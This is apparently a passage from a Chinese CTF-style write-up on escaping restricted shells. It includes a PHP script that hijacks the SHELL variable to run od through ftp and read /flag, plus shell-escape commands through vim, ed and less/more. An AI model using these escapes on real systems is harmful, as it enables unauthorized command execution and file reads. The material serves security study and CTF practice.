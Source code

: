     
    putenv("SHELL=/usr/bin/od");  
    $descriptorspec = array(  
       0 => array("pipe", "r"), // 标准输入，子进程从此管道中读取数据  
       1 => array("pipe", "w"), // 标准输出，子进程向此管道中写入数据  
       2 => array("pipe", "r")  
    );  
      
    $file=array();  
      
    $process = proc_open("ftp", $descriptorspec, $file);  
      
    var_dump($process);  
    var_dump($file);  
      
    function readln($file){  
        $out = "";  
        $a = fread($file, 1);  
        echo "readln";  
        while ($a != "\n") {  
            $out = $out.$a;  
            $a = fread($file, 1);  
        }  
        return $out;  
    }  
      
      
    fputs($file[0], "! /flag\n");  
    sleep("2");  
    $data = readln($file[1]);  
    echo $data;

`proc_open`执行一个命令，并且打开用来输入/输出的文件指针，它的参数可以根据官方文档进行魔改。这里把`od命令`(od有-
c选项，且功能符合我们的要求赋给环境变量SHELL。

> od -c 输出文件的八进制、十六进制等格式编码的字节 -c 使用ASCII码进行输出，注意其中包括转义字符
>
> 所以整个脚本的意思就是劫持环境变量SHELL为od命令，使用proc_open执行，并把它的输出流`echo`![]()image.png

### Vim系列 执行系统命令

`vim.tiny，vim-basic，vi`等同样适用 进入vim命令行模式，感叹号后面加命令

> !command >!whoami >kali >:::

### ed 执行系统命令

`ed` 命令 是单行纯文本编辑器，它有命令模式（command mode）和输入模式（input mode）两种工作模式。 命令行模式执行命令

![]()image.png

### less/more 执行系统命令

`more`和`less`一定要读取一个比较大的文件，如果文件太小无法进入翻页功能也就无法使用`!`命令执行命令或者进入shell

> !command !/bin/sh，进入shell
>
> ![]()image.png
